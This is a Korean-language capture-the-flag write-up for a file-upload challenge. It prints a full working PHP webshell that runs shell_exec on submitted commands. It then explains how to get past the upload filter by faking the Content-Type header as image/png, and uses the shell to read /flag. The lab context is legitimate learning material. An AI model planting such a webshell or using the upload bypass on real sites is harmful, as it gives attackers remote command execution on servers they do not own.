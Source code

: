 #43
===

이번 문제도 파일을 올려서 해결해야하는 문제로 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMjAw/MDAxNTc5MzQ4MTUzOTAx.OJAzMr9y2CElantUpUMSUItD3dDnhFUBlQC_GwQwmZog.ms3pz7_WpA9hcUNeVk3CG9eSRqmxB4o8uqAn0g3rf5wg.JPEG.rlaeoghks823/K-061.jpg?type=w773)

힌트가 상단에 적혀있다

```
You must upload webshell and cat /flag
```

아무래도 webshell을 이용해서 해결하라는 문제로 보인다.

웹서핑을 통해 webshell 코드를 구해왔다.

```
<?php
if (!empty($_POST['cmd'])) {
    $cmd =shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html>
<!-- By Artyum (https://github.com/artyuum) -->
<head>
 
    <meta charset="utf-8">
 
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
 
    <meta name="viewport" content="width=device-width, initial-scale=1">
 
    <link rel="stylesheet" type="text/css" href="//bootswatch.com/4/flatly/bootstrap.min.css">
 
    <title>Web Shell</title>
 
    <style>
        h2 {
            color: rgba(0, 0, 0, .75);
        }
        pre {
            padding: 15px;
            -webkit-border-radius: 5px;
            -moz-border-radius: 5px;
            border-radius: 5px;
            background-color: #ECF0F1;
        }
        .container {
            width: 850px;
        }
    </style>
 
</head>
 
<body>
 
    <div class="container">
 
        <div class="pb-2 mt-4 mb-2">
        <h1>PHP Shell</h1>
            <h2> Execute a command </h2>
        </div>
 
        <form method="POST">
            <div class="form-group">
                <label for="cmd"><strong>Command</strong></label>
                <input type="text" class="form-control" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES,'UTF-8')?>" required>
            </div>
            <button type="submit" class="btn btn-primary">Execute</button>
        </form>
 
<?php if ($cmd):?>
        <div class="pb-2 mt-4 mb-2">
            <h2> Output </h2>
        </div>
        <pre>
<?= htmlspecialchars($cmd, ENT_QUOTES,'UTF-8')?>
        </pre>
<?php elseif (!$cmd &&$_SERVER['REQUEST_METHOD'] =='POST'):?>
        <div class="pb-2 mt-4 mb-2">
            <h2> Output </h2>
        </div>
        <pre><small>No result.</small></pre>
<?php endif;?>
    </div>
 
</body>
 
</html>
```

확장자가 php인 파일을 만들어 위 코드를 그대로 넣어주고 파일을 업로드 해보았다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMjAw/MDAxNTc5MzQ4MTYxMjA2.8Sd5XvgY5U6j3xNSynT8QwSH1O9W8Fv7W2WrcPc_vx0g.V1P0m4YlGImAdioEqqffpVwzYO2u4p2mFVv6fvvCyb0g.JPEG.rlaeoghks823/K-063.jpg?type=w773)

그러나 wrong type이라는 문구와 함께 파일이 올라가질 않는다.

그래서 다른 확장자명을 가진 파일을 올려보던 도중 .png 파일은 다음과 같이 올려진다는 것을 알 수 있었다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNjUg/MDAxNTc5MzQ4MTU3MTQx.79fAAhd5yNw65A-rKlrzqqTXm53NWvKXtUZYc9WlhpUg.XF2qpw0B6vT3M71jMmrYULzo7q8LOUqxDmMayN3c0Vsg.JPEG.rlaeoghks823/K-062.jpg?type=w773)

따라서 칼리로 burpsuit를 켜서 확인해본 결과

.png 확장자는 `Content-Type: image/png` 로 처리되는 반면에

![](https://postfiles.pstatic.net/MjAyMDAxMThfMjM1/MDAxNTc5MzQ4MTY1ODA3.FDoFRqqShTopLZpVAfv_mojU04kukdwFEX2qeflGL8Ug.hxrMGxYDRVihnykr5pGafXYEijterxvErcZ7uV16jb8g.JPEG.rlaeoghks823/K-064.jpg?type=w773)

.php 확장자는 `Content-Type: application/octet-stream`로 처리되어 파일이 업로드되지 않는 것을 알 수 있었다.

원래대로라면 php파일을 올릴 때  
`Content-Type: application/octet-stream` 이것을 `Content-Type: image/png`로 변조시켜서 php파일을 png 파일로 인식시킴으로써 해결을 해줘야하지만

이상하게도 내 칼리에서는 아래 사진처럼  
`Content-Type: application/x-php`로 처리되어 그냥 올라가졌다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTc5/MDAxNTc5MzQ4MTY5OTc0.mIJYtaCfe-BBvjsTsXKfeOcxaGFFj-gNW6pcrt9cCY4g.LXZaez_4kxlPYwSR88RrPv72KYVdT7JAl2bVFrBP_x4g.JPEG.rlaeoghks823/K-065.jpg?type=w773)
![](https://postfiles.pstatic.net/MjAyMDAxMThfMjk2/MDAxNTc5MzQ4MTc2MDQ2.FQstT9rpviCzu8JEI3b0-8W1xtzhO06SUmJuv3O8u74g.RVjXt5ApHikx9wYzjpN9syIuZcTZ3rjN39J6sQzx-TQg.JPEG.rlaeoghks823/K-066.jpg?type=w773)

링크를 타고 들어가서 `cat /flag`를 쳐줘 flag 값을 얻어 냈다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMjIw/MDAxNTc5MzQ4MTg4Nzk2.R_Hc1GQcey5wOQg4_427J_GLtpVGxUqKCQx72ALSpE0g.TlGf6jjy02vU-_20aErlVd2wGc5qOeM278I7YHhR6Isg.JPEG.rlaeoghks823/K-067.jpg?type=w773)

